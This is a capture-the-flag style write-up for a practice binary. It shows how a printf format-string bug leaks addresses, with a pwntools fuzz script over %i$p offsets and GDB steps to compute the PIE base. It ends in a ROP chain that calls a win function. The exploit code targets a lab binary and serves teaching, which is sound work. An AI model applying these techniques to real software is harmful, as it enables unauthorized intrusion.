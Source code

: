# Intro 6 

checksec:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

This one is similar to intro 5 but the difference this time is we are not given leak. Instead the main function has a printf() that is vulnerable to a format string attack

![](pics/1.png)

We can use this to leak an address of the binary. 

Sending 3 %p's we can confirm it is vulnerable

![](pics/2.png)

Sending 3 %p's gives 3 different leaks. You can send 50 or 100 to try and find a valid stack address but you can have issues doing this so it is easier to fuzz them one by one using the %x$p where x is the postion you want to leak.

My fuzz script:
```
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./pwnme', checksec=False)
context.terminal = ['alacritty', '-e', 'zsh', '-c']

io = process(elf.path)

i = 1
while i <= 100:
    try:
        io = process(elf.path, level='error')
        payload = f"%{i}$p"
        io.sendline(payload)
        leak = io.recv().strip().split(b'?',1)[1]
        print(f"Offset {i} has {leak}")
        i += 1
    except EOFError:
        pass
```

this gives us a return like this:
```
Offset 1 has b'0x7f1281140a03'
Offset 2 has b''
Offset 3 has b'0x7fc88ef30980'
Offset 4 has b'0x7ffdcbbc3e60'
Offset 5 has b'(nil)'
Offset 6 has b'0x560070243625'
Offset 7 has b'0x55846f0b30e0'
Offset 8 has b'0x7ffd767f5df0'
Offset 9 has b'0x56259886322e'
Offset 10 has b'0x560d0e08e2f0'
```

Finding a valid address to use involves some trial and error. 

The address I used is "%33$p"

To workout the offset of this leak in order to get the base address I used GDB.

First run the program using GDB, and send %33$p

The leak I get is "0x55d97e11b0e0"

GDB tells us this is "\_start"
```
pwndbg> x/s 0x55d97e11b0e0
0x55d97e11b0e0 <_start>:
```

![](pics/3.png)

The offset for this is 0x10e0 so the base address will be our leak - 0x10e0

```
leak = io.recv().strip().split(b'?',1)[1]
leak = int(leak,16)
success(f"got leak @ {hex(leak)}")
base_addr = leak - 0x10e0
success(f"got main addr @ {hex(base_addr)}")
```

We can confirm this by running the script looking at the output and checking with GDB

![](pics/4.png)

```
pwndbg> x/s 0x557dd19ee000
0x557dd19ee000:	"\177ELF\002\001\001"
```

the ```"\177ELF\002\001\001"```  is the start of the binary so we have got the base.

The "libs" command can also be used to check this.

Now that I have the leak and the base address the exploit is the same as intro5

```
payload = b'A' * OFFSET
rop.raw(rop.ret)
rop.win(0xdeadbeefdeadbeef)
rop.win()
payload += rop.chain()

io.sendline(payload)
```

![](pics/5.png)
